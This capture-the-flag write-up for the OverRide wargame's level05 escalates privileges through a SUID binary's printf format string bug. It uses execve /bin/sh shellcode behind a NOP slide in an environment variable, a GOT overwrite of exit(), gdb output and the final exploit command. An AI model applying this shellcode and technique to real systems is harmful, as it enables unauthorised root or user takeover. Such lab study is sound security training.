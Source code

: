 # Level 5

## Vulnerability

Shellcode in environment variable + printf() format string attack

## Context

We find a binary with owner ```level06``` and SUID.
```
level05@OverRide:~$ ls -l
-rwsr-s---+ 1 level06 users 5176 Sep 10  2016 level05
```

The program takes input from the stdin, and prints the output in lowercase. 
```
level05@OverRide:~$ ./level05
HELLO
hello
```
## Solution

### main() overview

Let's take a deeper look at the program. See [dissasembly notes](https://github.com/anyashuka/Override/blob/main/level05/Ressources/disassembly_notes.md) for detailed gdb assembly breakdown.

This program is a basic ```tolower()```, which is of little interest to us. <br />
However we do see a call to ```printf()```, which is vulnerable to string format exploits. <br />
We also see a call to ```exit()```.

### Exploit

Unfortunately, we see the stack is non-executable. We can overflow the buffer, but we can't overwrite the EIP with an address (like ```system("/bin/sh")```) in the stack because it won't execute.
```
level05@OverRide:~$ dmesg | grep "Execute Disable"
[    0.000000] NX (Execute Disable) protection: active
```

Instead, we will:
- use a shellcode stored in an environmental variable 
- to run a string format attack to overwrite ```exit()``` 

We will use [this compact system call opening a shell](http://shell-storm.org/shellcode/files/shellcode-827.php).
```
\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80
```
We will prefix the shellcode with a 100 byte NOP slide, and then store it all in an environment variable. 
```
level05@OverRide:~$ export SHELLCODE=`python -c 'print("\x90"*100 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")'`
```

Let's find the address of our malicious shellcode / environment variable. 
```
(gdb) break *main+4
Breakpoint 1 at 0x8048448
(gdb) r
[...]
(gdb) x/200s environ
0xffffd806:	 "/home/users/level05/level05"
0xffffd822:	 "SHELLCODE=\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\220\061\300Ph//shh/bin\211\343PS\211\341\260\v̀"
0xffffd8a8:	 "SHELL=/bin/bash"
```
Our malicious shellcode is at ```0xffffd822```. <br />
Note: we want to move past the first 10 bytes "SHELLCODE=" and into your NOP slide... so let's make the address of our shellcode ```0xffffd822 + 16 bytes -> 0xffffd832```.

Unfortunately, ```0xffffd832``` is too large to pass to ```printf()``` in decimal with a ```%d``` format (it overflows maxint).
```
2147483647 <- maximum size of int
4294957106 <- address of shellcode (in decimal)
```
We can, however, pass it in decimal as 2 short ints (written on 2 bytes each). <br />
Note: reverse order for little endian! 
```
0xffffd832
0xd832 -> 55346
0xffff -> 65535
```

Next, find the address of ```exit()```. The GOT address of ```exit()``` is ```0x080497e0```.
```
level05@OverRide:~$ gdb -q level05
(gdb) info function exit
[...]
0x08048370  exit
0x08048370  exit@plt
(gdb) x/i 0x08048370
   0x8048370 <exit@plt>:	jmp    *0x80497e0
```
We will also have to split the address of ```exit()``` in two, to accomodate our hefty 2-part shellcode address. 

Finally, let's check our buffer position for the ```printf()``` string format exploit. <br />
We can see our buffer "AAAA" in the 10th position on the stack as 61616161.
```
level05@OverRide:~$ python -c 'print "AAAA"+" %x"*12' | ./level05
aaaa 64 f7fcfac0 f7ec3af9 ffffd69f ffffd69e 0 ffffffff ffffd724 f7fdb000 61616161 20782520 25207825
```

### Build exploit

Looks good... Let's sum it all up! <br />
Our attack takes place in 2 steps:
- malicious environment variable 
```
"NOP slide [100 bytes] + call to open a shell"
```
- format string attack
  - exit GOT address, split into two [4 byte] parts
  - shellcode address in decimal, split into two [4 byte] parts
      - ``` 55346 - 8 bytes (of characters already written)``` -> ```55338```
      - ```65535 - 55346 bytes (of characters already written)``` -> ```10189```
  -  ```printf()``` formatting arguments: 
      - ```%10$hn``` for 10th argument, half word/short int [2 bytes]
      - ```%11$hn``` for 11th argument, half word/short int [2 bytes]
```
"exit GOT address [2 first bytes] + exit GOT address [2 last bytes] + shellcode addr [2 bytes] + '%10$hn' + shellcode addr [2 bytes] + '%11$hn'"
```

Let's try it. 
```
(python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%55338d%10$hn" + "%10189d%11$hn")'; cat) | ./level05
```
